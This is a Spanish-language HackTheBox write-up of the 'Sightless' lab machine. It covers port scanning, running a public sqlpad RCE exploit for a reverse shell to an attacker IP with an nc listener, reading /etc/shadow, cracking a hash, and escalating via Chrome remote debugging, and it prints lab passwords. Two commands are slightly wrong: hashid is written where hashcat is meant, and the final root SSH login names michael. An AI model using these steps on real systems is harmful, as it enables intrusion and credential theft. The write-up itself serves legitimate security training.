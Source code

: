 #CTF #HackTheBox 
# Enumeración
Lo primero que hacemos es enumerar que puertos están abiertos en esta maquina mediante nmap

```bash
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.11.32 -oG allPorts
```

![[Pasted image 20240930225901.png]]

Ya que tenemos los puertos que estan abiertos en la maquina procedemos  realizar un escaneo de estos para descubrir version y servicios que corre.

```bash
nmap -p21,22,80 -sCV 10.10.11.32 -oN targeted
```

![[Pasted image 20240930230039.png]]

Como tenemos el puerto 80 abierto accedemos a la pagina web agregando el nombre de dominio al /etc/host, en este caso sightless.htb.

![[Pasted image 20240930230146.png]]

Al navegar en el podemos encontrar un link a una pagina que corre el servicio **sqlpad**, si buscamos vulnerabilidades de esta podemos encontrar un exploit que nos permite entablar una reverse shell.
https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944

# Explotación

Lo unico que tenemos que hacer es correr el exploit con la url de slpad, ip del atacante y puerto del atacante.

```bash
python3 exploit.py http://sqlpad.sightless.htb/ 10.10.14.32 443
```

Una vez ejecutado y estando en escucha por dicho puerto mediante netcat ` nc -lvnp 443 ` podemos ver que el codigo se ejecuto de manera correcta porque nos devolvio una reverse shell, realizamos un tratamiento de esta y empezamos a navegar por el sistema.
Como podemos darnos cuenta estamos en un docker.

![[Pasted image 20240930230908.png]]

Para encontrar posibles contraseñas podemos listar el /etc/passw y el /etc/shadow.
Al hacerlo podemos ver que obtuvimos un hash de la posible contraseña del usuario ***michael***

![[Pasted image 20240930231042.png]]

Para ver que tipo de hash es podemos usar ***hashid***, solo copiamos el hash en un archivo y se lo pasamos a hashid

```bash
hashid docker.hash
```

![[Pasted image 20240930231636.png]]

Ahora podemos intentar crackearlo mediante hashcat, para este tipo de hashes utilizamos la opcion -m 1800 debido a que es la que corresponde a ***SHA-512 Crypt***

```bash 
hashid -m 1800 docker.hash /home/$USER/repos/rockyou.txt
```

Podemos ver que la contraseña es ->

![[Pasted image 20240930232437.png]]

***insaneclownposse***
Al entablar una shell mediante openssh podemos utilizar este usuario y contraseña y asi obtener acceso a la maquina. En la ruta /home/michael podemos encontrar la primera flag.

# Escalada de privilegios

Al listar los grupos no encontramos nada asi que procedemos a revisar que puertos estan abiertos:

![[Pasted image 20240930232706.png]]

Podemos identificar peculiarmente el puerto 8080 en el localhost, al acceder, primero mediante ssh:

```bash
ssh michael@10.10.11.32 -L 8080:localhost:8080
```

Y despues mediante el navegador nos encontramos con esta pagina

![[Pasted image 20240930233139.png]]

Pero no encontramos nada que nos sirva para obtener las credenciales, cuando listamos los procesos podemos ver que un usuario jhon estuvo accediendo mucho a chrome

![[Pasted image 20240930233644.png]]

Por lo que vemos es el modo de depuración de chrome, ya con esta información si buscamos podemos descubrir que chrome puede realizar una depuración remota, mediante esta pudimos descubrir que la contraseña es ***ForlorfroxAdmin*** y el usuario es ***admin***.La escalada de privilegio es mediante la explotacion del debuger de chrome, mediante la modificacion de php podemos insertar comandos a nivel de la maquina, lo que nos permitio copiar la id_rsa y darle permisos de ejecución, solo bastaria realizar un ` ssh -i id_rsa michael@10.10.11.32` para obtener una consola root.
